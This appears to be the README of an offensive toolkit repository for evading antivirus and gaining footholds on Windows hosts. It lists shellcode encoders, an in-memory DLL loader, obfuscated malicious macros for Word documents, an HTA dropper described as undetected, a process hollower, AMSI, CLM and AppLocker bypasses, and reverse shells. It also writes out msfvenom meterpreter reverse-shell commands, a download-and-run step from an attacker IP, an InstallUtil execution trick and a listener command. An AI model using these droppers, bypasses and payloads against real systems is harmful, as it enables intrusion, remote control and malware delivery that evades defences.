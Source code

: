 ## TOOLS:
* Platform.sln => platform.exe
```
PE with bypasses - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* XOREncrypt.sln => XOREncrypt.exe 
```
A second layer shellcode XOR encoer.
```
* holcrimson.sln => holcrimson.dll
```
Unamanged DLL for in memory loading - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* Doc1.doc - example Doc1.doc from medium article.
* VBA_XORencrypt.ps1 - Powershell script for encrypting 4 parts of VBA macro.
* Platform.txt - PS script
```
1. AMSI bypass
2. Download DLL
3. Load DLL to memory.
4. Run DLL.
```
* macro.vba - for Doc1.doc
```
Obfuscated VBA macro for docm / doc attack.
```
* platform.aspx - for IIS webserver attack
```
Use with msfvenom encrypted generated shellcode + XOREncrypt.sln
```
* platform.hta - dropper.
```
Use with obfuscated PE ShellCode Runner
Download to disk and run - this is undetected.
```
* isma.txt - use "-arg=1".split for arguemnts parsing.
```
1. AMSI bypass
2. Download PE
3. Load PE to memory.
4. Run PE.
```
* HOLLOW.sln => HOLLOW.exe - Process Hollower.
```
1. Generate encrypted shellcode
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$ip LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key w -o shell.cs
2. Place inside and compile it.
```
* ConfuserEX.zip - for .NET PE obfuscation.
* Hyperion.zip - Crypter for PE obfuscation.
```
hyperion.exe input.exe output.exe
```
* [Pezor](https://github.com/Karmaz95/PEzor)
```
bash PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 evil.exe -z 2
```
* bypass-clm.exe - [CLM Bypass](https://github.com/Karmaz95/bypass-clm) => spawn PowerShell in current terminal.
* clm_enc.txt - Same as bypass-clm.exe but base64 encoded with certutil and you can pass b64 encoded commands:
```
certutil -decode clm_enc.txt clm.exe
# Example of b64 below checks if the PowerShell run in FullLanguage
clm.exe "JABFAHgAZQBjAHUAdABpAG8AbgBDAG8AbgB0AGUAeAB0AC4AUwBlAHMAcwBpAG8AbgBTAHQAYQB0AGUALgBMAGEAbgBnAHUAYQBnAGUATQBvAGQAZQA="
```
* install_shellcode.cs - [APPLOCKER BYPASS](https://github.com/Karmaz95/install_shellcode.cs) => InstallUtil Shellcode Runner
```
msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=443 -f csharp -o shell.cs
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe  /unsafe /platform:x86 /out:install_shellcode.exe .\install_shellcode.cs
iwr -uri 'http://$ip/install_shellcode.exe' -outfile C:/asd/install_shellcode.exe;
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U install_shellcode.exe
```
* shell.aspx - simple reverse shell for .aspx upload.
```
sudo msfconsole -x "use multi/handler; set LHOST tun0;set LPORT 443; exploit -j;"
```
* shell.ps1 - simple reverse shell in PowerShell.
```
Change IP and PORT.
```
* openssl.cnf - file to replace the original one for MD4 support on Kali Linux.
```
Replace the /etc/ssl/openssl.cnf
```

## SCORE 
<p align="center">
  <img src="antiscanme.png" />
</p>
